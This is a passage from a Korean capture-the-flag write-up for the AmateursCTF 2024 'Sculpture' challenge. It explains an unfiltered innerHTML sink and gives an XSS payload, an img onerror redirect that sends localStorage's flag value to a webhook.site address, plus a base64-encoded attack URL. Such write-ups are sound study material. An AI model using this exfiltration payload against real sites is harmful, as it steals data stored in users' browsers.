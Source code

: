 ```javascript 
   });
}

document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});
```       
위 코드는 파이썬 코드를 입력하면 결과 값을 출력한다. `outf()`에서 `innerHTML`을 사용하고 어떠한 필터링이 걸려있지 않다.    
즉, `XSS` 취약점이 존재하여 `localStorage.getItem('flag')` 값을 웹훅으로 넘기면 된다.     
          
<img src="/assets/images/ctf/2024/amateurs/sculpture/alert.jpg" width="700px">            
          
XSS 취약점을 통해 `alert(1)`이 잘 출력되는 것을 확인할 수 있다. 
                         
### Exploit Code 
```python
# https://amateurs-ctf-2024-sculpture-challenge.pages.dev/?code=cHJpbnQoIjxpbWcgc3JjPXggb25lcnJvcj1sb2NhdGlvbi5ocmVmPWBodHRwczovL3dlYmhvb2suc2l0ZS80Zjg1OGVhMS03YjFkLTRlNjAtYmUxNi01Mzk0YTZhYTY3M2EvP2M9YCtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgnZmxhZycpPiIp
print("<img src=x onerror=location.href=`https://webhook.site/4f858ea1-7b1d-4e60-be16-5394a6aa673a/?c=`+localStorage.getItem('flag')>")
```               
             
<img src="/assets/images/ctf/2024/amateurs/sculpture/flag.jpg" width="700px">           
            
### Flag     
amateursCTF{i_l0v3_wh3n_y0u_can_imp0rt_xss_v3ct0r}          
                             
